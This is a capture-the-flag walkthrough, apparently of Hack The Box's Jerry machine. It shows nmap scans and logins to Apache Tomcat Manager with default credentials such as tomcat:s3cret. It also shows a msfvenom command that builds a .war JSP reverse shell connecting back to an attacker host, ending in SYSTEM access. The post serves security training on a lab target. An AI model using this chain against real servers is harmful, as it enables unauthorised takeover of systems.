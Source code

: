 ﻿---
title: 'Jerry Walkthrough: Brute-Forcing Default Service Credentials '
date: 2024-10-28 12:00:00 +0530
categories: [red-teaming]
tags:
- HTB
- standalone
- brute-force
description: Walkthrough of HTB's Jerry machine
---
### Recon

Started with NMAP Scan to discover open ports

```bash
sudo nmap -T5 -sS -n -Pn --disable-arp-ping -p- 10.10.10.95 --max-retries 0 
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-21 08:43 EDT
Warning: 10.10.10.95 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.95
Host is up (0.093s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 88.83 seconds
```

To further identify the SMB version running and possibly determine the OS, I ran a targeted Nmap Aggressive scan:

```bash
sudo nmap -A -n -Pn --disable-arp-ping --stats-every=5s -p 8080 10.10.10.95 --max-retries 0
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 (89%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%), Microsoft Windows Server 2012 R2 (89%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Embedded Standard 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

Nmap done: 1 IP address (1 host up) scanned in 18.62 seconds

```

A service named â€œApache Tomcatâ€ running on the port 8080. The http-open-proxy script indicates that the server might be misconfigured as an open proxy.

### Nmap Flags:

- **`sS`**: Performs a SYN scan (stealth scan).
- **`n`**: Disables DNS resolution to speed up scanning.
- **`-disable-arp-ping`**: Skips ARP ping.
- **`p`**: Scans all of the ports.
- **`A`**: Agressive Scan, which performs OS Detection, Version detection, Default script scanning
- **`--script=vuln,exploit` :** Runs NMAP default NSE vuln, exploit scripts to identify potential vulnerabilities.

NMAP was unable to determine any vulnerabilities for the service, but found some interesting paths

```bash

PORT     STATE SERVICE
8080/tcp open  http-proxy
| http-enum: 
|   /examples/: Sample scripts
|   /manager/html/upload: Apache Tomcat (401 Unauthorized)
|   /manager/html: Apache Tomcat (401 Unauthorized)
|_  /docs/: Potentially interesting folder

```

### Brute-Forcing credentials

![image.png]({{ '/assets/img/Jerry/image.png' | relative_url }})

Tried accessing â€œServer statusâ€, which returned a pop-up asking for credentials to access the page as shown below.

![image.png]({{ '/assets/img/Jerry/image%201.png' | relative_url }})

Brute-forced few known credentials found on [google](https://stackoverflow.com/questions/3829513/what-is-the-default-username-and-password-in-tomcat). Username:Password- admin:admin worked for logging into â€œServer Statusâ€, â€œManager Appâ€,â€Host Managerâ€

Found some interesting information on the webpage â€œHost Managerâ€ 

![image.png]({{ '/assets/img/Jerry/image%202.png' | relative_url }})

With the credentials obtained tomcat:s3cret (Username:Password), logged into â€œTomcat Web Application Managerâ€ on an another Private tab. 

![image.png]({{ '/assets/img/Jerry/image%203.png' | relative_url }})

As the tomcat user, we can upload a .war file  to the server.

![image.png]({{ '/assets/img/Jerry/image%204.png' | relative_url }})

A .war (Web application Archive) file is a packaged file format used to distribute Java-based web applications. It stands for Web application resource and is essentially a compressed archive similar to a .zip file., but with a speific structure intended for deployment on a Java EE server, such as Apache Tomcat.

### Generating Payload & Obtaining a Reverse Shell

Generating .war payloads using â€œmsfvenomâ€

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.6 LPORT=4444 -Ff war -o test.war
```

Successfully uploaded the file (test.war) to the server

![image.png]({{ '/assets/img/Jerry/image%205.png' | relative_url }})

Accessing the file via web browser at â€œtestâ€ location resulted in obtaining a reverse shell.

![image.png]({{ '/assets/img/Jerry/image%206.png' | relative_url }})

Obtained shell has SYSTEM Privileges

![image.png]({{ '/assets/img/Jerry/image%207.png' | relative_url }})

The flags are located at Administratorâ€™s Desktop

![image.png]({{ '/assets/img/Jerry/image%208.png' | relative_url }})

### Disclaimer

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*




